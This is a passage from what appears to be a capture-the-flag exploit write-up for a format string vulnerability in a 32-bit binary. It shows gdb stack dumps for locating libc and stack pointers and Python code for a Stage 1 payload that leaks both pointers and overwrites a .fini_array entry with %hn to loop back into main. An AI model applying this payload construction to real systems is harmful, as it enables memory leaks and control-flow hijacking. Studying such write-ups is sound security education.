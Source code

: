 In order to facilitate the above we will need to leak the following pointers:

* A pointer into libc
* A pointer into the stack

We can find a pointer into libc quite easily when inspecting the stack at the epilogue of the `main` routine:

```asm
  gdb-peda$ x/300xw $esp
  0xbffff870: 0xbffff88c  0x000003fc  0xb7fcfc00  0x00000006
  (...)
  0xbffffc90: 0xbffffcb0  0x00000000  0x00000000  0xb7e7b723
  0xbffffca0: 0x08048540  0x00000000  0x00000000  0xb7e7b723
  0xbffffcb0: 0x00000001  0xbffffd44  0xbffffd4c  0xb7fed7da
  0xbffffcc0: 0x00000001  0xbffffd44  0xbffffce4  0x080497ec
  0xbffffcd0: 0x08048230  0xb7fcf000  0x00000000  0x00000000
  0xbffffce0: 0x00000000  0xdffeebbc  0xef6a4fac  0x00000000
  0xbffffcf0: 0x00000000  0x00000000  0x00000001  0x080483a0
  0xbffffd00: 0x00000000  0xb7ff3020  0xb7e7b639  0xb7fff000
  0xbffffd10: 0x00000001  0x080483a0  0x00000000  0x080483c1
  gdb-peda$ disas 0xb7e7b723,+10
  Dump of assembler code from 0xb7e7b723 to 0xb7e7b72d:
     0xb7e7b723 <__libc_start_main+243>:  mov    DWORD PTR [esp],eax
     0xb7e7b726 <__libc_start_main+246>:  call   0xb7e92c00 <__GI_exit>
     0xb7e7b72b <__libc_start_main+251>:  xor    ecx,ecx
  End of assembler dump.
```

Here we can see the return address of `main()` back into the `__libc_start_main` routine. Note that the above is a stackdump on our local test machine with a different libc version so the offset of the pointer to the libc base address is slightly different but this can be calculated by finding the address of the equivalent return point into `__libc_start_main` in the supplied `libc-2.21.so` library. We can find a pointer into the stack in a similar fashion and determine its offset to the saved cookie to obtain its stack storage address. We can leak both pointers by exploiting the fms vulnerability using `%index$x` where index is the DWORD-offset on the stack of our target.

## Stage 1

Stage 1 of the attack consists of transforming the fms vulnerability into a reliable infoleak which is done as follows:

```python
  # offset of our dst_addr in our buffer (in DWORDs)
  offset_1 = 7 + 4
  # libc pointer leak offset (in DWORDs)
  offset_2 = 267
  # stack pointer leak offset (in DWORDs)
  offset_3 = 264

  # .fini_array address
  dst_addr = 0x080496DC
  # <main+0> address
  lsb_overwrite = 0x849B
  # how many bytes to output to set internal written counter to lsb_overwrite
  val = (lsb_overwrite - (16 + 4))

  # Construct FMS exploit string
  return chr(0x25) + str(offset_2) + '$08x' + chr(0x25) + str(offset_3) + '$08x' + pack('<I', dst_addr) + chr(0x25) + str(val) + 'x' + chr(0x25) + str(offset_1) + '$hn.'
```
